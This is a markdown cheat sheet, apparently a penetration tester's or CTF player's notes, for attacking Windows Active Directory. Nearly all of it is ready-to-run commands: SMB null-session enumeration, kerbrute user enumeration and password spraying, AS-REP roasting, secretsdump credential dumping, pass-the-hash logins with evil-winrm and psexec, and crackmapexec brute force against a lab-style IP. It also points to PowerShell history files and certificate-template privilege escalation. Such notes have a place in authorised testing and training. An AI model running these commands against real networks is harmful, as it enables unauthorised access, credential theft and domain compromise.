 # Active Directory? What to do?

**Adjust each command with the correct condition**

## list shares
`smbclient -L //[IP]`

## try anonymous login
`smbclient -N //[IP]/[sharename]`

## try null authentication
`smclient -U '' -N //[IP]/sharename`

## try with rpcclient (when got in just google rpcclient commands)
`rpcclient [ip]`

## try with rpcclient with null authentication
`rpcclient -U '' -N [IP]`

## enum more with enum4linux
`enum4linux -a [IP]`

## spray username or password with kerbrute
`~/scripts/kerbrute userenum --dc [IP] -d [domain-name] [user_list]`
`~/scripts/kerbrute bruteuser --dc [IP] -d [domain-name] [password_list] [username]`

## ASREPRoasting with GetNPUsers.py
`python3 ~/scripts/impacket/examples/GetNPUsers.py -dc-ip [IP] [domain-name]/[user] -no-pass`
and crack it

## login to smbclient if you have creds
`smbclient -L //[IP] --user=[user] --password [password]`

## access shares if you have creds
`smbclient //[IP]/[sharename] --user=[user]`

## enum basic info with rpcclient
`rpcclient [domain-name] -U [username]`
> enumdomusers
> enumdomgroups

## try to dump secrets of you have creds
`python3 ~/scripts/impacket/examples/secretsdump.py -target-ip [IP] [domain-name]/[full-username] -outputfile secretsdump.log`
or
`python3 ~/scripts/impacket/examples/secretsdump.py [options you want] [user]:[password]@[IP]`

## got NTLM hash? got password? got user? evil-winrm time
`evil-winrm -i [IP] -u [user] -H [NT hash]`
or just use the password if you got one

or just psexec
`python3 ~/scripts/impacket/examples/psexec.py [username]@[ip_address]`


## Try Bruteforce SMB with crackmapexec
`crackmapexec smb <MACHINE-IP> -u <username> -p <wordlist>`
ex: `crackmapexec smb 10.10.153.204 -u Jareth -p ~/wordlists/rockyou.txt`


## Dumping LM and NTLM when we have system.bak and sam.bak
`python3 ~/scripts/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL -outputfile hashes.txt`

## How to find SID
`whoami /all | Select-String -Pattern "[username]" -Context 2,0`

## Always check recycle bin (Even via commandline)
cd 'C:\$Recycle.bin\<SID>'
ex:
cd 'C:\$Recycle.bin\S-1-5-21-1987495829-1628902820-919763334-1001'

## Check the powershell history (Ini ada di semua windows)
C:\Users\[username]\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

## Certify Privesc
- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation
- https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-misconfigured-certificate-template-to-domain-admin)